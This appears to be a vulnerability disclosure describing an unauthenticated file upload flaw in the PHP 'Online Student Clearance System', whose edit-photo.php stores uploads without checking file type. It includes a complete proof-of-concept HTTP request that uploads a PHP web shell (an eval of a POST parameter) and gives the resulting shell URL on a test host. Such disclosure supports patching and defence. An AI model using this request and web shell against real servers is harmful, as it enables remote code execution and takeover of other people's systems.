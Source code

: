 There is a file upload vulnerability in the Online Student Clearance System. Attackers can exploit this vulnerability to control the server without authentication.





Source code address：https://www.sourcecodester.com/php/17892/online-clearance-system.html



The vulnerability lies in the file. As can be seen in the code, 'addslashes' is used to handle the file content and file name, and the image is saved to the' uploads' directory of the server. Finally, the image path is updated to the student record corresponding to the student number in the database without verifying the file type, which leads to the occurrence of the file upload vulnerability.

![image-20250427212835265](images/image-20250427212835265.png)



Vulnerability verification：

```
POST /student_clearance/edit-photo.php HTTP/1.1
Host: 192.168.1.8
Content-Length: 311
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.8
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFVBXFbaIv8BtfS2n
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.8/student_clearance/edit-photo.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryFVBXFbaIv8BtfS2n
Content-Disposition: form-data; name="userImage"; filename="kru.php"
Content-Type: image/jpeg

<?php
eval($_POST["pass1"]);

------WebKitFormBoundaryFVBXFbaIv8BtfS2n
Content-Disposition: form-data; name="btnedit"


------WebKitFormBoundaryFVBXFbaIv8BtfS2n--



```

 ![image-20250427212427806](images/image-20250427212427806.png)



The address after the file is uploaded is：http://192.168.1.8/student_clearance/uploads/kru.php

![image-20250427212455309](images/image-20250427212455309.png)





























